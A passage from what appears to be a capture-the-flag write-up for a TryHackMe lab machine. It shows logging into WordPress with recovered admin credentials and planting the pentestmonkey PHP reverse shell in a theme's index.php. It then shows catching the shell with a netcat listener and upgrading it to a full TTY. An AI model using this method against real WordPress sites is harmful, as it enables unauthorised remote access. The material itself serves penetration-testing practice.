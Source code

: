```bash
 | Username: admin, Password: *******
```

Bingo, we now have valid credentials for the user `admin`, let's login now, we can log in in the next URL: `http://internal.thm/blog/wp-login.php`.

![Desktop View](InternalWPDashboard.png)

Once inside the **Wordpress** dashboard it's pretty easy to get RCE, we can upload a webshell doing the following steps: **Appearance -> Theme Editor**.

Then we have to select the currently active **Theme**, in this case **Twenty Seventeen**, so select **Twenty Seventeen**, and select the **Main Index Template (index.php)** file and change it's content with the classic **pentestmonkey** reverse shell.

You can download the reverse shell here: [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![Desktop View](InternalWPReverseShell.png)

Once modified, click the button **Update File**, then we just have to set a `netcat` listener and access the following URL: ***http://internal.thm/blog***.

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [10.14.99.119] from (UNKNOWN) [10.10.27.35] 55396
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:07:19 up  1:00,  0 users,  load average: 0.00, 0.03, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Shell as www-data

### TTY Treatment 

Once we get the reverse shell, let's find a way to scale privileges, but before, we have to get a fully interactive shell, there are multiple ways but i like to do it this way: 

```bash
script /dev/null -c bash
```

Then press *Ctrl+Z* to get the process in background.

Now that you are in your machine execute the next command:

```bash
stty raw -echo;fg
```
